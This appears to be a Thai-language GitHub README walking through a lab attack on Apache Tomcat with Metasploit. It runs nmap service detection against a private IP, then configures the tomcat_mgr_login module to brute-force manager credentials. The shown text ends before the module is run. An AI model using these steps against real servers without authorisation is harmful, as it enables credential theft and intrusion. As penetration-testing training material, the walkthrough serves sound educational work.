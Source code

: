 # Attacking-Apache-Tomcat-with-Metasploit

### Metasploit Framework 

> ซึ่งเป็นเครื่องมือที่ใช้สำหรับการทดสอบเจาะระบบ (penetration testing) และการประเมินความปลอดภัยของระบบเครือข่ายและแอปพลิเคชัน

```
msfconsole
```

![msfconsole](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/84f6410d-5ee7-47e9-a7ec-54f8332e15a7)

### Nmap Service Version Detection

> Nmap มี Option ที่ใช้ตรวจสอบและคาดเดา service และเวอร์ชั่นของ service นั้นก็คือ -sV ตามด้วย IP หรือ Host ที่เราต้องการ

```
nmap -sV 192.168.19.175
```

![nmap -sV](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/6f8c730d-a227-44d5-abbf-433092e433af)

### search

> คำสั่ง search ใน Metasploit Framework ช่วยค้นหาโมดูลที่เกี่ยวข้องกับคำสำคัญที่คุณป้อนไป

```
search tomcat
```

![search](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/ecce85cc-adb6-4131-a129-778651be0599)

### use

>use ใน Metasploit Framework ช่วยให้ผู้ใช้สามารถเลือกและใช้โมดูลที่ต้องการในการทดสอบเจาะระบบได้

```
use auxiliary/scanner/http/tomcat_mgr_login 
```

![use](https://github.com/Atiwitch15101/Attacking-Apache-Tomcat-with-Metasploit/assets/159407312/32920552-4e06-4e91-b3e0-95fccecb9e99)

### show options

>คำสั่ง show options เมื่อใช้ Metasploit Framework ใช้เพื่อแสดงตัวเลือกและพารามิเตอร์ที่สามารถตั้งค่าสำหรับโมดูลที่เลือก ช่วยให้รู้ว่าต้องกำหนดค่าอะไรบ้างก่อนที่จะรันโมดูลนั้น

```
show options
```

![show op1](https://github.com/Atiwitch15101/Tomcat/assets/159407312/f10b8150-1873-449a-937e-97a1fe381181)

### set

>คำสั่ง set เมื่อใช้ Metasploit Framework ใช้เพื่อกำหนดค่าพารามิเตอร์สำหรับโมดูลที่เลือก

`BRUTEFORCE_SPEED` ตั้งความเร็วในการ brute force (1-5, ค่า 5 เร็วสุด)
`RHOSTS` ระบุเป้าหมายหรือกลุ่มเป้าหมาย (เช่น IP หรือช่วง IP)
`STOP_ON_SUCCESS` หยุดการโจมตีเมื่อประสบความสำเร็จ (true/false)
`RPORT` ระบุพอร์ตของเป้าหมาย (เช่น 80 สำหรับ HTTP)

```
set BRUTEFORCE_SPEED 8
```

```
set BRUTEFORCE_SPEED 5
```

```
set RHOSTS 192.168.19.175
```

```
set STOP_ON_SUCCESS true
```

```
set RPORT 8180
```
![set](https://github.com/Atiwitch15101/Tomcat/assets/159407312/0c6d6159-8413-4831-9be7-5ee49929a4a4)



